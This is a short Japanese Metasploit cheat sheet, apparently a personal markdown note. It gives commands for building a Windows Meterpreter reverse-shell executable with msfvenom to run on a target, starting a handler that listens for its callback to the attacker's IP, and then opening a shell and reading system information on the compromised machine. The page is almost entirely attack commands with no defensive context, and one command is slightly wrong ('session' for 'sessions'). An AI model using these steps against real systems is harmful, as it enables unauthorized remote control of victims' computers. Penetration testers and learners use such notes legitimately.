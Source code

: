###  msfvenomで相手側で実行する用のリバースシェルを生成する  
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=<自分のIP> LPORT=1111 -f exe -o sheshe.exe ```  

### msfvenomでリバースシェルの待ち構え  
```
msf > use exploit/multi/handler  
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > set LHOST <自分のIP>  
msf > set LPORT ポート番号
msf > run
```

### システムの情報を表示する  
``` meterpreter> sysinfo ```

### windowsシェルの起動
``` meterpreter> shell ```

### exploitをしてsession 1 created in the backgroundとでる  
セッションに接続する  
``` session -i 1 ```
